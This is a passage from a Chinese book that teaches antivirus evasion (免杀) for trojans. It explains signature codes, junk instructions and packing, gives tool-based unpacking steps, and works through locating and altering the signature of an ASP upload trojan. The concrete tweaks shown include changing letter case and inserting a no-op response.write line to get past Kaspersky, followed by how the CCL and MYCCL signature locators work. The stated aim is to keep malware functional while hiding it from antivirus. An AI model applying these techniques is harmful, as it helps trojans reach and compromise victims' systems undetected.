
图 3.2


图 3.3


图 3.4


图 3.5

其实通过区段名称就可以大体猜出来这个区段里包含什么信息，在整个程序中能起到什么作用等等，因为 PE 文件里的区段名称都是有相应的规范的，但是如果有人为更改的因素在里面，那就不好说了。

由此可见，PE 文件是一种结构组成十分科学的文件格式，因此也对我们快速地认识它起到了助推器的作用。只要你记住 PE 文件的这 5 个构成的结构，你就可以向别人说，我了解 PE 文件！

没想到吧，一个简简单单的应用程序后面也存在着这么多有趣的知识！但是这些知识仅仅是 PE 文件中的一小部分而已。由于 PE 文件涉及到的知识面很广，就算这本书也难以将其讲清楚，所以出于对初学者的考虑，这一节就暂时介绍到这里。本节意在让大家对 PE 文件有一个大体的了解，让大家认识 PE 文件中这些至关重要的东西，以使大家对 PE 文件产生一种最起码的熟悉感。根据本书的逐渐深入，我会在后面的章节中详细介绍 PE 文件的构成。

### 3.3 文件免杀原理

#### 3.3.1 什么是特征码

杀毒软件用于判断文件是否带毒的一段独一无二的代码便称为特征码。这些特征码在不同的杀毒软件的病毒库中，它存在的方式以及表达的意思不尽相同。特征码的真正含义只有相应的杀毒软件才能读懂。

根据杀毒软件的逐渐发展，特征码也逐渐细化为很多不同的分支，其中差距最大的就是文件特征码与内存特征码。由 3.1 节的杀毒软件原理可知，即便是文件杀毒，也分为若干种方法，而方法的不同，必然会使每种方法下所涉及到的特征码存有细微的差距。

但是总体来说，特征码就是一种只有病毒或木马文件内才具有的独一无二的特征，它或是一段字符，或是在特定位置调用的一个函数。总之，如果某个文件具有这个特征码，那杀毒软件就会认为它是病毒。反过来，如果将这些特征码从病毒、木马的文件中抹去或是破坏掉，那么杀毒软件就认为这是一个正常文件。

由此我们可以得出，杀毒软件不认文件，只认特征码。所以说，我们也可以将特征码看作是杀毒软件的黑名单。

#### 3.3.2 文件免杀原理

学习木马免杀的最终目标就是在保证原文件功能正常的前提下，通过一定的更改，使得原本被杀毒软件查杀的文件免于被杀。

然而达到不再被杀的目的有很多方法，最明显的方法就是让杀毒软件停止工作，或是使我们的木马能“变”为一个正常的文件。使杀毒软件停止工作的免杀原理应该很容易理解，杀毒软件停止工作了，就相当于没有杀毒软件了，然后我们在运行病毒或木马肯定就不会被查杀了。

然而如何使一个病毒或木马变成一个正常文件，那原理可就没有那么简单了！为了便于大家理解，我用逆向思维为大家讲解，也就是从结果开始讲解。

##### 3.3.2.1 改特征码免杀原理
仔细读过上一段的朋友们肯定还记得，特征码就是杀毒软件的黑名单。而我们这里的改特征码可不是将木马从杀毒软件的黑名单中删除，而是从自身做起，改头换面！例如原来黑名单中有“灰鸽子”这么一款木马，我们改头换面后不叫灰鸽子了，我们叫“白鸽子”！当然，这只是一个例子，现实中我们仅仅依靠改名是骗不了杀毒软件的。

就目前的杀毒技术来讲，更改特征码从而达到免杀的效果事实上包含着两种思想。第一种是改特征码免杀的最初思想，例如一个文件在某一个地址内有“灰鸽子上线成功！”这么一句话，那么它就是木马，所以我们只要将相应地址内的那句话改成别的就可以了，如果是无关痛痒的，我们直接将其删掉也未尝不可，如图 3.6。

第二种是针对目前推出的校验和查杀技术提出的免杀思想，它的原理虽然仍是特征码，但是已经脱离纯粹意义上特征码的概念，但是万变不离其宗！其实校验和也是根据病毒文件中与众不同的区块计算出来的。如果一个文件某个特定区域的校验和符合病毒库里的特征，那么杀毒软件就会报警，所以我们如果想阻止杀毒软件报警，只要对病毒的特定区域做一定更改即可。

的更改，就会使这一区域的校验和改变，从而达到欺骗杀毒软件的目的，如图3.7，这就是有时候我们定位特征码时，定位了两次却得出不同结果的原因所在。

图3.6 图3.7

##### 3.3.2.2 花指令免杀原理

花指令其实就是一段毫无意义的指令，也可以称之为垃圾指令。程序中存在它与不存在它的运行结果都是一样的，所以它存在的唯一目的就是阻止反汇编程序，或是对反汇编设置障碍。

然而这种障碍对于杀毒软件来说也是同样致命的，如果我们的花指令添加的足够高明，可以很轻松地使木马逃脱查杀！

但是，为什么它会影响到杀毒软件的判断呢？通过学习杀毒软件的原理，大家都已经知道了大多数杀毒软件是靠特征码来判断文件是否有毒的，而为了提高精度，现在的特征码都是在一定偏移量限制之内的，否则如果对整个文件从头到尾进行比对的话，那么会对杀毒软件的效率产生严重的影响！而当我们为一个程序添加一段花指令之后，它一定会对程序的逻辑偏移量产生影响，如果杀毒软件不能识别这段花指令的话，那么它检测特征码的偏移量会整体位移一段位置，自然就无法正常检测木马了。

当然，这也仅仅是对第一代扫描技术的解释，如果杀毒软件采用虚拟机分析、密码校验和扫描或是启发式分析的话，花指令同样会起到一定的作用，针对每种检测方法的不同，花指令所起到的作用亦不相同。但是万变不离其宗，花指令的最根本的思想就是扰乱程序运行顺序，并布满陷阱的一种反破解的方法。而如果花指令可以成功保护软件真正代码不被轻易反汇编的话，那么对于杀毒软件来说，它所检测的自然也就不是木马文件真正的内容了。

##### 3.3.2.3 加壳免杀原理

说起软件加壳，零基础的朋友们也许了解的还不够深。简单地说，软件加壳其实也可以称之为软件加密，只是加密的方式与目的不一样罢了，我们一般的加密，是为了防止陌生人随意运行我们的程序，我们如果将一些程序加密，那么就会使程序只为自己所用。

但是加壳就不一样了，他的目的是不让程序遭到不法分子的破坏与利用，例如最常见的共享软件，如果不对软件加以保护，那么这个软件就会很轻易地被破解，当然也就没有人去向软件的作者购买注册码了，后果可想而知，软件作者的收入会因此受到强大的冲击！

既然加壳后的软件还能正常运行，那么这些壳究竟将软件的哪些部分加密了呢？其实，我们可以从“加壳”这个词语上来解释，为什么不管这叫加密、防盗或是其他的名字，而偏偏称其为加壳呢？

我们可以将未加壳的软件比喻成美味的食物，太多的人想要得到它，好大饱口福！于是食物的主人就将其保存了起来，放到一个只有他能打开的硬壳里，这样就可以避免图谋不轨的人打它的主意。当自己的客人到来的时候，他可以很轻松地打开这个硬壳，以便于客人品尝……

上面所说外面的壳就是我们加的保护，但是并不会因此破坏掉里面的程序，当我们运行这个加壳的程序时，系统首先会运行程序的“壳”，然后由壳将以加密的程序逐步还原到内存中，最后运行程序。这样一来，在我们看来，似乎加壳之后的程序并没有什么变化，但它却达到了加密的目的，这就是壳的作用。

现在，我们再回头看看杀毒软件，如果说加壳之后的文件我们人都无法将其还原，那么可想而知，杀毒软件自然也就看不懂了，经过加密后的文件结构已经产生了天翻地覆的变化，原有的特征码早已不知去处，杀毒软件自然也就会认为它是一个正常的文件了。

当然，鉴于目前所讲的深度，这都是停留在未执行的文件前提下的理论，如果文件执行后，那就是另一番风景了，我们在第七章会详细的探讨这些问题。

### 3.4 工具脱壳技巧

所谓的“壳”就是一种对软件进行保护的加密程序，我们在上一节中已对它做了基本的介绍。我们开始真正学习免杀技术之前是需要一定的脱壳技巧的，因为很多木马都是加过壳的，如果我们不能将其脱壳，也就无法进行有效的免杀。但是就目前各位读者的基础来说，可能对手工脱壳的相关内容理解起来还有一定的难度，所以在这里首先为大家讲解一下工具脱壳的技巧。其实虽说是工具脱壳，但是对于一大部分常用壳是完全可以顺利脱掉的，所以这样也可以满足大家顺利脱掉在免杀时可能碰到的常见壳。

#### 3.4.1 专用脱壳工具脱壳

针对不同的壳，网上有很多专用的脱壳工具，它们常常可以将某个壳的所有版本进行完全脱壳，脱壳的效率与可靠性往往也是最高的。

我们先将一个程序加一层UPX的壳，双击运行UPX后点击“打开”按钮选择我们要加壳的程序，如图3.8所示。打开后程序会自动跳到“压缩”选项卡下，点击选项卡下的“→”按钮即可成功加壳，如图3.9所示。

图3.8 图3.9

加壳完毕后我们运行PEID，PEID是一款用来查看文件信息的强大工具，其中当然包括查看文件的加壳状态。我们如果想要用其加载某个程序，只需将文件拖拽到 PEID 的界面上即可打开该文件，如图 3.10 所示。打开文件后发现信息栏里显示着“UPX 0.89.6 - 1.02 / 1.05 - 1.24 (Delphi) stub -> Markus & Laszlo”这段信息，如图 3.11 所示。这就是告诉我们这个文件被 UPX 加壳了，壳的版本可能是 0.89.6 - 1.02 或 1.05 - 1.24，其他的信息暂且不用去管，只需要记住开始部分为文件状态，包括加壳种类或编写语言等信息。如果显示编写语言信息则说明应该没有加壳，但是值得大家注意的是，现在通过一定的处理已经可以使加壳文件欺骗 PEID 了。

图 3.10 图 3.11

> 为了便于大家以后的操作，这里我再举几个实例为大家快速上手 PEID 做一个参考：

- 显示信息：Borland C++ 1999
- 解释：文件采用 Borland C++ 编写，版本为 1999，文件未加壳。

- 显示信息：ASPack 2.12 -> Alexey Solodovnikov
- 解释：文件已被 ASPack 加壳，壳的版本为 2.12。

- 显示信息：Microsoft Visual C++ 6.0
- 解释：文件采用 Microsoft Visual C++ 编写，版本为 6.0，文件未加壳。

通过上面的例子不知大家发现没有，凡是被加壳的文件信息里都有一个“->”符号，代表后面的内容为这个壳的扩展信息。

下面我们开始为这个文件脱壳，针对 UPX 有一款名为 Anti-UPX-Scrambler 的脱壳软件，但是就目前来讲，它已经不能脱 UPX 的壳了，因为较新版本的 UPX 本身就带有脱壳功能，所以它也就停止了更新。我们打开一个较新的 UPX 后加载那个已加壳的文件，就会发现 UPX 自动跳转到“压缩”选项卡，并且其选项卡下的“解压”选项已经默认选中，如图 3.12 所示。我们只需点击“执行”按钮即可成功将程序脱壳。

看到这里也许大家对于工具脱壳还是有疑问，例如我们怎么找那些壳的脱壳工具呢？如果那些工具不能用怎么办呢？

对于第一个问题大家不用担心，我已经将我收集的 40 多个专用脱壳工具给大家打包放到随书赠送的光盘里了。对于第二个问题，我们可以试试通用脱壳工具是否能将壳脱掉。

#### 3.4.2 使用通用脱壳工具

既然叫做通用脱壳工具，肯定是能脱很多壳的，在这些工具里比较成熟的就要数 Quick Unpack 了，它不但可以脱去已知的大部分壳，还可以脱去一些经过加密的或是变异之后的未知壳。

图3.12 图3.13

但是这里我首先为大家展示一下怎样使用 PEID 脱壳，因为我们平时都要使用 PEID 查壳，所以如果可以直接用 PEID 来脱壳将是一件比较方便的事，而且 PEID 的脱壳效果也不错。我们先用 PEID 打开一个已加壳的文件，然后如图 3.13 所示点击“=>”按钮，依次选择“插件”→“PEID通用脱壳器”，在弹出的对话框中点击“->”按钮自动寻找入口点，然后点击“脱壳(U)”按钮即可成功脱壳，如图 3.14 所示。脱壳过程中可能会提示是否使用“ImpREC”重建输入表，我们点击“是”即可。

但是有时候点击“->”按钮后会运行原程序，并且 PEID 无法将其自动关闭，这时我们只需手动关闭即可。如果使用 PEID 无法脱壳或是脱壳后的程序不可用，我们就要看看 PEID 是否能正确读出壳的信息。如果能正确读出，我们可以使用超级巡警发布的基于虚拟机的万用脱壳工具 VMUnpacker，VMUnpacker 的特点就是只要它能正确识别壳的信息，一般情况下都可以完美脱壳。运行 VMUnpacker 后如图 3.15 所示，选择要脱壳文件后直接点击“给我脱”按钮即可，使用方法非常简便。

图3.14 图3.15

但是如果 PEID 无法正确读出壳的信息怎么办呢？这时就要请出我们的脱壳利器 Quick Unpack 了，但是 Quick Unpack 也有不好的地方，因为它的使用是需要一定的技巧与注意事项的。另外 Quick Unpack 在 Windows XP 系统下如果脱壳失败的话也容易引起系统崩溃。

就目前为止 Quick Unpack 已经更新到 2.0 版本，前前后后大小更新也经历了 16 次，但是即便如此，现在个人认为还是 v1.0 beta7 比较稳定，所以这里我就以 v1.0 beta7 版本为例讲解一下 Quick Unpack 的使用方法。

对于目前的读者来讲，我们不需要过多的理解那些参数的设置，只需要记住 Quick Unpack 怎么样使用就可以了。

## 第三章 免杀基础知识

打开 Quick Unpack 界面如图 3.16 所示，我们将需脱壳程序拖拽到 Quick Unpack 的界面中打开，然后点击 OEP 后的“>”按钮，如图 3.17 所示，在弹出的“OEP查找器”窗口中双击第二条，使用第二种寻找方法，如图 3.18 所示。

图 3.16 图 3.17 图 3.18 图 3.19

如果双击后发现 OEP 后显示的信息为“00000000”的话，则说明 Quick Unpack 没能读出有效的 OEP 信息，这时我们可以试试双击倒数第二条，也许会有转机。找到 OEP 后程序会自动退回主界面，只需点击“立即脱壳！”按钮即可开始脱壳，如图 3.19 所示；在脱某些壳的时候，可能会在脱壳中途弹出如图 3.20 所示的输入表操作界面，我们只需要先点击按钮“删除无效的”，再点击“保存”即可，脱壳成功后如图 3.21 所示。

图 3.20 图 3.21

到此，这一章就完全结束了，我想这一章最大的特点就是始终以“选择”贯穿其中，有很多知识点我都对大家做了“选择学习”的建议。其实这并不代表这些内容就真的很难，大家就真的接受不了了，其实随着大家对电脑的研究逐渐深入，就会知道“从数学角度上看，人们本无法理解事物，而只能去习惯他们”这句话的真正含义，谋求真正的理解是一种愚蠢的做法，谁也不可能真正的理解什么，而理解后的知识也因人而异，所以我们应该先试着去记住它、总结它、再应用它，最后才是理解它。希望这句话对你有用，也希望这句话能促使你再次阅读本章你还完全不明白的地方。

爱心是冬日里的一片阳光，使饥寒交迫的人感到人间温暖；爱心是沙漠中的一泓清泉，使濒临绝境的人重新看到生活的希望。

如果说黑客技术的精髓在于 ShellCode，那么免杀技术的精髓就在于特征码免杀！病毒木马之所以能逃出杀毒软件的“魔掌”，就是因为特征码免杀技术的出现。由此可见，特征码免杀是一项具有十足魅力的黑客技术，甚至称之为黑客艺术也不为过！

当然，特征码免杀技术之所以具有十足魅力的原因之一，就是它对于大多数人来说还是比较神秘的，但是只有神秘，才有魅力，由此可见真正掌握这项技术的人并不算多。

本章的任务就是带领大家踏入这个颇具魅力的技术领域，让我们从简单的脚本木马免杀开始，逐步认识特征码，逐步认识特征码免杀，从而到最后的修改特征码。每一步都力求讲的细致周到，以便于读者朋友透彻地了解特征码免杀技术，从而由此出发，研究出自己独到的免杀手法。

## 第四章 特征码免杀技术

### 4.1 战前热身——脚本木马免杀实例

#### 4.1.1 理想状态下的免杀

在我们真正开始特征码免杀旅途之前，先看看一个免杀脚本木马的例子，以便为大家理解以后的内容打下基础。为了以后方便脚本类木马的免杀，我们先安装一个叫做 EditPlus 的程序，这是一款非常好用的文本编译工具，安装同样非常简单，一路“下一步”即可，安装完毕后我们可以将其与“.ASP”等脚本文件关联起来。

我们右击 ASP 文件，弹出的菜单中选择“属性”，在新对话框中点击“更改”，然后点击新弹出对话框右下角中的“浏览”按钮，选择我们已安装好的 EditPlus 程序，点击“确定”，最后在上一对话框中选择 EditPlus 并点击“确定”即可，如图 4.1。

图 4.1

如果你想完美更改 ASP 系列文件的关联，可以先打开“我的电脑”，如图 4.2 所示选择“工具”下的“文件夹选项”，然后在弹出的对话框中选择“文件类型”选项卡，并找到 ASP 文件，如图 4.3。点击对话框右下角的“高级”按钮，在弹出的对话框窗口中依次点击“更改图标”>“浏览”，选择我们安装好的 EditPlus 程序后并选择一个你喜欢的图标，如图 4.4，最后点击“确定”即可设置好 ASP 系列文件的显示方式。下面我们在“编辑文件类型”窗口中点击“新建”，在“操作”后填入“OPEN”，“用于执行的应用程序”选择我们的 EditPlus，如图 4.5，最后点击两次确定即可设置成功，如图 4.6。

图 4.2 图 4.3 图 4.4 图 4.5 图 4.6

配置好后就可以进行我们的脚本木马免杀之旅了，鉴于目前杀毒软件的原理与脚本木马的特性，这里提出的一些思想与技巧在脚本木马免杀方面也许并不通用，但是它有利于大家对免杀的进一步认识。

这次我们以一款比较常见的上传木马为例，用分割法对其进行免杀操作。所谓的分割法，就是指将一个文件分为数份，然后再用杀毒软件查杀。如果发现第 2 份有毒，则说明第 2 份含有特征码，然后我们再将第 2 份分割为数份，以此往复，直到定位出我们认为长度合适的特征码，操作流程图如图 4.7 所示。

我们先将文件如图 4.8 那样分为两份，并用杀毒软件查杀，发现“默认木马.asp”与“1-0-0.asp”被查杀，如图 4.9，这就说明文件“1-0-0.asp”含有特征码。下面我们再将“1-0-0.asp”分为两份，再继续进行查杀，哪个文件发现病毒后就再次将其分割，直到分割到文件足够小，方便我们更改特征码即可。这里假如我们定位出了特征码在“<% err.clear %>”里，我们只需要将其大小写替换就可以了，例如替换为“<% ErR.clEaR %>”即可免杀。

图 4.7 图 4.8 图 4.9

#### 4.1.2 脚本木马也要玩“花指令”

到这里，不知大家对脚本的特征码免杀是否已经有了一个大体的了解。这一部分借助于分割文件而逐渐缩小范围的方式，生动地讲解了特征码的查找方式以及特征码的存在方式。但是，如果你是跟着所讲内容逐步操作的话，那么可能会陷入一个尴尬的循环中，因为只要你将文件分割为3份以上，即使什么也没做，那么杀毒软件也不报毒了，但是将其组合到一起却仍然被杀……

这是因为卡巴斯基用的扫描器采用的是密码校验和技术，如图 4.10 所示。

| 特征 | 描述 |
|---|---|
| 特征码 | 文件中第 4-6 行的校验和如果为“123456”，则此文件有毒 |
| 文件 | 文件 1 / 文件 2 |
| 检测结果 | 有毒 / 无毒 |

图 4.10

密码校验和就是将一段病毒文件代码计算出特定的值，然后用病毒库的值与其比对，对上则有毒，反之则无毒。当我们分割文件时肯定会破坏它，因为明明在一起的代码让我们给分成若干份了，密码校验和自然也就不同了，所以不报毒了，但是一旦我们将其再组合起来，由于又恢复了原貌，所以继续报毒。

在实际操作中，我们最多可以将文件分为两份，经检测文件的上半部分报毒。整个文件为 30 行代码，也就是说卡巴斯基获取校验和的代码在前 15 行。而且如果再将这 15 行代码分开后就不会报毒，所以我们就将目标盯在这 15 行代码上即可。

鉴于现在卡巴斯基的特性，其密码校验和扫描算法对字母大小写并不十分敏感，如果考虑更改大小写，不免有些麻烦，这里就先为大家多少渗透一下脚本木马的花指令方法。操作起来特别简单！我们只需在 13 行代码下面添加一句“<%response.write ""%>”即可，如图 4.11，现在再用卡巴杀毒试试，是不是已经躲过它的检测了？

图 4.11

值得注意的是，大家在免杀的时候头脑一定要灵活。我做了实验，同样的方法也过了瑞星，但是这就说明瑞星也用了密码校验和扫描技术吗？不一定！我们撇开各大杀毒厂商的“私家事”不提，单从免杀角度来说，某种扫描技术可能是某个杀毒厂商发明的，但不能因此就拿杀毒软件厂商说事。例如瑞星，在查杀这个木马时与卡巴的密码校验和技术表现得完全一致！所以我们要更加注重现象，万不可钻牛角尖。

### 4.2 特征码定位原理

相信通过上一节的学习，大家对特征码的理解已经进入了比较深的层次。虽然我们上节讲解的是关于脚本木马特征码的定位与修改方法，但是它与文件木马的特征码定位大同小异，从原理上来讲基本一样。为了使大家能够更好地运用特征码免杀技术，这一大节我们主要讲解目前几款特征码定位器的工作原理，以使读者朋友更加透彻地了解特征码定位的原理，从而游刃有余地对付在免杀时碰到的一些突发问题。

#### 4.2.1 CCL 特征码定位原理

CCL 是国内的第一款专用免杀工具，也是一款原理简单的单一特征码定位器，虽然现在定位特征码已经很少用到这个工具。但是作为国内免杀工具的鼻祖，还是有必要介绍一下的，这样更有利于我们理解以后的内容，因为从免杀工具的发展上来说，这也是免杀工具思想的根源。

鉴于我们现在还没讲到特征码定位器的使用技巧，所以这里只讲原理，不涉及操作。

如果大家有兴趣的话，在你看完特征码定位器的使用技巧后再回头看第二遍这一节所讲的内容，相信你对免杀的理解也会更进一层。

既然现在已经开始学习可执行木马的特征码定位原理，肯定就要涉及到 PE 文件知识了，但就目前所讲的内容来看，只需要读者记住 EXE 与 DLL 都是属于 PE 文件格式就可以了。

下面言归正传，为了更加直观的了解各个特征码定位器的原理，我制作了一个极其简单的例子程序，如图 4.12 所示。当然这个程序是不可能运行的，我们只是为了演示。这个程序中的“1111……”代表是有数据的地方，其中的“AA”就是我们假定的特征码了。

图 4.12

当我们用 CCL 定位特征码时，它会从区段头部开始填充“00”数据，因为“00”在 PE 文件中是空白的意思，所以如果将一段数据替换为“00”，也就相当于删除了这段数据。为了演示效果更加明显，这里我们已经将整个文件作为一个区段来定位了，现在来看看 CCL 生成的第一个无后缀文件“OUT_00000000_00000010”，如图 4.13 所示，不难发现第一行已经被无意义的“00”填充了，而这其中就包含我们的特征码“AA”，很显然这个文件不会被杀毒软件查杀的。

图 4.13

下面我们再看看生成的第二个文件“OUT_00000010_00000010”如图 4.14，我们发现由于填充的部位变成第 2 行，所以特征码“AA”这时已经暴露出来，因此这个文件肯定会被杀毒软件查杀了。怎么样？现在是不是还觉得毫无头绪呢？那我们就再看看第三个文件“OUT_00000020_00000010”，如图 4.15。

图 4.14

图 4.15

很显然，这次是文件的第 3 行被“00”填充了，这个文件依然包含特征码。到了现在，我们可以猜得出来，第四个文件肯定是第 4 行被填充了，而且由于没有覆盖住特征码“AA”，因此同样会被杀。正如图 4.16 所示，我们的猜测是正确的！在这次操作中 CCL 总共生成了 4 个文件，其中 3 个被杀。经过简单的推理可以确定，肯定是第一个文件覆盖掉了特征码，而又因为第一个文件的第一行数据被“00”填充了，这样很自然就会得出结果——特征码就在第一行！

图 4.16

但是这个特征码的范围是不是有些大呢？其实在真正操作的时候，如果我们想要比较小的特征码范围，可以将 CCL 一次填充“00”的字节数减少，例如由默认的 16 字节减少到 4 字节。为了便于大家的理解，我为大家做了一张比较形象的 CCL 特征码定位原理示意图，如图 4.17，通过这张图可以更加透彻的理解 CCL 特征码定位原理。

图 4.17

#### 4.2.2 MYCCL 特征码定位原理

MYCCL 是现在应用最广泛的一款特征码定位器，它因杀毒软件采用复合特征码定位而诞生。所谓的复合特征码，就是一个病毒定义一套以上的特征码，只有改掉所有特征码后才不会被查杀。因此可以推论出，MYCCL 具有复合特征码定位功能。当然，事实也是如此……

为了便于演示 MYCCL 的复合定位，我们准备了如图 4.18 所示的示例程序，其中的“AA”“CC”为两个特征码，如果这两个特征码有一个存在，杀毒软件就会报警，现在我们看看 MYCCL 究竟是怎样工作的吧。

图 4.18

我们将 MYCCL 文件分块个数设置为 3，也就是将“例子.exe”按照 MYCCL 的填充方式分为 3 个文件并用“00”填充不同的位置。第一次分为如图 4.19 所示的 3 个文件。由图中得知，第一个文件暴露出三分之一的数据，剩下的被“00”填充了；第二个文件暴露了三分之二的数据，而第三个文件则全部暴露。根据 MYCCL 生成文件的规律，我们发现它第一次采用的是“由头到尾暴露”的填充方式，但是在图中我们也可以发现，这三个文件或多或少都含有特征码，那怎么办呢？继续往下看，当杀毒软件将这 3 个文件全部删除后，我们用 MYCCL 生成了第二批文件。

图 4.19

